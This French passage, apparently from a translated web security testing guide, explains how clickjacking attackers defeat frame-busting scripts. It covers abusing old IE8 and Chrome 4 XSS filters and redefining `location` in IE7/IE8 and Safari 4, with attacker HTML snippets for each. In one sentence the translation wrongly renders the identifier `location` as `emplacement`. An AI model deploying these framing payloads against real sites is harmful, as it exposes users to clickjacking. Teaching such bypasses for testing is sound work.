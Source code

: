 Code de l'attaquant :

```html
<iframe src="http://exemple.org/?param=<script>if">
```

- **Filtre Chrome 4.0 XSSAuditor** : Il a un comportement un peu différent par rapport au filtre XSS IE8, en effet avec ce filtre un attaquant pourrait désactiver un "script" en passant son code dans un paramètre de requête. Cela permet à la page de cadrage de cibler spécifiquement un seul extrait contenant le code de contournement de cadre, laissant tous les autres codes intacts.

exemple : Code de contournement du cadre de la page Web cible :

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Code de l'attaquant :

```html
<iframe src="http://exemple.org/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D">
```

##### Redéfinir l'emplacement

Pour plusieurs navigateurs, la variable `document.location` est un attribut immuable. Cependant, pour certaines versions d'Internet Explorer et de Safari, il est possible de redéfinir cet attribut. Ce fait peut être exploité pour échapper au code de contournement de trame.

- **Redéfinition de l'emplacement dans IE7 et IE8** : il est possible de redéfinir `emplacement` comme illustré dans l'exemple suivant. En définissant `location` comme une variable, tout code qui essaie de lire ou de naviguer en attribuant `top.location` échouera en raison d'une violation de sécurité et le code de rupture de trame est donc suspendu.

exemple :

```html
<script>
    var location = "xyz";
</script>
<iframe src="http://exemple.org"></iframe>
```

- **Redéfinition de l'emplacement dans Safari 4.0.4** : Pour casser le code de contournement de cadre avec `top.location`, il est possible de lier `location` à une fonction via `defineSetter` (à travers la fenêtre), de sorte qu'une tentative de lecture ou accédez au `top.location` échouera.

exemple :

```html
<script>
    window.defineSetter("location" , function(){});
</script>
<iframe src="http://exemple.org"></iframe>
```
